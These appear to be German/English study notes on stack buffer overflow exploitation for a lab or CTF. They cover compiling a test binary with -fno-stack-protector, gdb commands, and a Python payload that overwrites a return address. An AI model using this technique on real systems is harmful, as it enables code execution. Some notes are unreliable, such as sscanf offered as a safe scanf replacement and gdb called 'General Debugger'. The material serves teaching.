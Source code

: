 

## Kompilieren der vuln's
For 32 bit systems
$ gcc vuln_gets.c -o vuln_gets -fno-stack-protector
For 64 bit systems
$ gcc vuln_gets.c -o vuln_gets -fno-stack-protector -m32

## What all C functions are vulnerable to Buffer Overflow Exploit?
- gets use: fgets
- scanf use: sscanf
- sprintf
- strcpy use: strncpy
- strcmp use: strncmp

## disassembly of the binary
objdump -d vuln

## Verwendung des gdb - General Debugger
```shell
gdb: disam main
gdb: r arg1 arg2 ... ; run with Arguments
gdb: b <adress> ; set Breakpoint
```

## Wo liegt die Rücksprungadresse und wo der auszuführende Code?
RET call <function> im gdb view, z. B.  0x8000470

%eip: The Instruction pointer register
%esp: The Stack pointer register
%ebp: The Base pointer register

## Payloads
```python
python -c 'print "a"*32 + "\x9d\x84\x04\x08"' | ./vuln
```

## x86 Instruction Listings
[https://en.wikipedia.org/wiki/X86_instruction_listings](https://en.wikipedia.org/wiki/X86_instruction_listings)


## Sonstiges
- [http://insecure.org/stf/smashstack.html](http://insecure.org/stf/smashstack.html)
- [https://pointerless.wordpress.com/2012/02/26/strcpy-security-exploit-how-to-easily-buffer-overflow/](https://pointerless.wordpress.com/2012/02/26/strcpy-security-exploit-how-to-easily-buffer-overflow/)
- [https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)
- [https://backdoor.sdslabs.co/](https://backdoor.sdslabs.co/)  BackdoorCTF
- [https://backdoor.sdslabs.co/challenges/ECHO](https://backdoor.sdslabs.co/challenges/ECHO) Challenge
